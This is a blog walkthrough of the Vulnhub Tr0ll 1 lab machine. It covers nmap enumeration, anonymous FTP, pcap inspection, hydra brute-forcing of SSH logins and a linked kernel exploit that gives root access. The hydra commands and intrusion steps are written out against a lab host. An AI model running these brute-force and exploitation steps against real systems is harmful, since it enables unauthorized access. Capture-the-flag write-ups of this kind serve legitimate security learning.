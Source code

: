 ```yaml
---
layout: post
title: "Vulnhub Tr0ll 1"
source: "https://anotsodev.me/vulnhub-tr0ll-1/"
author:
  - "anotsodev"
date: 2017-08-25
description: "Started with the Nmap Scan # Nmap 7.40 scan initiated Thu Aug 3 20:58:47 2017 as: nmap -sC -sV -oA nmap 192.168.8.102 Nmap scan report for 192.168.8.102 Host is up (0.0035s latency). Not shown: 997…"
tags:
  - "cybersecurity"
  - "information-security"
---
```

Started with the Nmap Scan

```
# Nmap 7.40 scan initiated Thu Aug  3 20:58:47 2017 as: nmap -sC -sV -oA nmap 192.168.8.102
Nmap scan report for 192.168.8.102
Host is up (0.0035s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|_  256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug  3 20:59:07 2017 -- 1 IP address (1 host up) scanned in 19.95 seconds
```
- port 21
- port 22
- port 80

![screenshot-from-2017-08-07-14-59-21-e1503681730435.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot-from-2017-08-07-14-59-21-e1503681890612.png?resize=734%2C585&ssl=1)

![screenshot20from202017-08-072015-02-06.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-02-06-e1503681876965.png?resize=656%2C296&ssl=1)

There is a directory in the web server named secret. So I opened the /secret directory and it showed me this.

![screenshot20from202017-08-072015-03-20.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-03-20-e1503682119899.png?resize=745%2C650&ssl=1)

And yes, it made me mad after seeing this.

Continuing my enumeration, I saw that the FTP server allows anonymous login, so I fired up my Filezilla and browse the FTP server. There is a file there named lol.pcap. Pcap is a file that contains the captured network traffics from network analyzers such as Wireshark and some other tools. So to open the pcap file, I launched Wireshark and read the pcap file. It showed me this.

![screenshot20from202017-08-032021-37-00-e1503682196980.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-032021-37-00-e1503710304210.png?resize=1170%2C610&ssl=1)

I noticed the “sup3rs3cr3tdirlol” and tried to open it and voila.

![screenshot20from202017-08-072015-13-36.png](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-13-36-e1503682263987.png?resize=548%2C388&ssl=1)

I downloaded the file named roflmao then run the file command to determine the filetype of the downloaded file. It shows that it is an ELF 32-bit LSB executable.

```
kaipowered@debian:~/Documents/Vulnhub/tr0ll$ file roflmao 
roflmao: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=5e14420eaa59e599c2f508490483d959f3d2cf4f, not stripped
```

So the next thing I did was to run the gdb then run the executable file.

```
GNU gdb (Debian 7.12-6) 7.12.0.20161007-git
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from roflmao...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/kaipowered/Documents/Vulnhub/tr0ll/roflmao 
Find address 0x0856BF to proceed[Inferior 1 (process 10058) exited with code 040]
(gdb)
```

The output showed me this

```
Find address 0x0856BF to proceed[Inferior 1 (process 10058) exited with code 040]
```

I tried to find the said address but I wasn’t able to find it in the memory, so I tried opening it on the web browser and it appears that it is a directory on the web server (luck I guess).

![screenshot20from202017-08-072015-24-34](https://i0.wp.com/anotsodev.me/wp-content/uploads/2017/08/screenshot20from202017-08-072015-24-34-e1503682433212.png?resize=659%2C390&ssl=1)

```
hydra -L which_one_lol.txt -P Pass.txt 192.168.8.102
```

At first, the usernames and passwords combination did not work, so it was so frustrating.

```
hydra -L which_one_lol.txt -p Pass.txt 192.168.8.102
```

But it appears that the real password is the “Pass.txt”, so I just changed the option from -P to -p, meaning, with the given password, try the usernames from which\_one\_lol.txt to match the correct combinations with hydra.

After bruteforcing, I was able to get the username and password of the machine.

```
username: overflow
password: Pass.txt
```

Commands Used

```
kaipowered@debian:~/Documents/Vulnhub/tr0ll$ ssh overflow@192.168.8.102
overflow@192.168.8.102's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Aug  6 23:35:25 2017 from 192.168.8.2
Could not chdir to home directory /home/overflow: No such file or directory
$
```

https://www.exploit-db.com/exploits/37292/

And after successfully exploited the tr0ll vm, I was able to get and read the Proof.txt that can be found in /root directory.

— FIN —

Solving this challenge was quite frustrating at first because, you know, the tr0ll is trolling you, but most of the time, when I found something interesting and it just appeared that I have been tr0lled, I just found myself grinning while clenching my fists, but of course I enjoyed solving this challenge.

---